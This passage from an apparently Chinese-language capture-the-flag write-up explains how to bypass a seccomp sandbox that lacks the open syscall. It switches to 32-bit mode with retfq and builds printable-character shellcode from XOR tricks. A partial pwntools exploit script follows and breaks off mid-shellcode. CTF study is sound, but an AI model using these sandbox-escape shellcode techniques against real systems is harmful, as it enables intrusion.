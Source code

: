 可以看到可以调用 write,read,mmap 但是没有 open，这个时候可以利用 fstat() 函数，该函数的 64 位系统调用号为 5，这个是 `open` 函数的 32 位系统调用号）

所以这道题的思路也就有了，利用 `retfq` 汇编指令进行 32 位和 64 位系统格式之间的切换，在 32 位格式下执行 `open` 函数打开 `flag` 文件，在 64 位格式下执行输入输出。

相关系统调用号可以参考[linux 系统调用号表\_linux 系统调用号\_Anciety 的博客-CSDN 博客](https://blog.csdn.net/qq_29343201/article/details/52209588)

这道题 ex 团长设计的还是难顶的，限制输入的 shellcode 必须是可打印字符，我们可以借助一些技巧从而构造汇编指令 (比如异或之类的算法操作)

可以用**shellcode 的艺术**中的**第三模块**中的总结用法，比如

```bash
xor al, 立即数
xor byte ptr [eax… + 立即数], al dl…
xor byte ptr [eax… + 立即数], ah dh…
xor dword ptr [eax… + 立即数], esi edi
xor word ptr [eax… + 立即数], si di
xor al dl…, byte ptr [eax… + 立即数]
xor ah dh…, byte ptr [eax… + 立即数]
xor esi edi, dword ptr [eax… + 立即数]
xor si di, word ptr [eax… + 立即数]
```

exp:

```bash
#coding:utf-8
from pwn import *
context.log_level = 'debug'
p = process('./shellcode')
# p = remote("nc.eonew.cn","10011")
p.recvuntil("shellcode: ")

append_x86 = '''
push ebx
pop ebx
'''
append = '''
/* 机器码：52 5a */
push rdx
pop rdx
'''

shellcode_x86 = '''
/*fp = open("flag")*/
mov esp,0x40404140

/* s = "flag" */
push 0x67616c66

/* ebx = &s */
push esp
pop ebx

/* ecx = 0 */
xor ecx,ecx

mov eax,5
int 0x80

mov ecx,eax
'''

shellcode_flag = '''
/* retfq:  mode_32 -> mode_64*/
push 0x33
```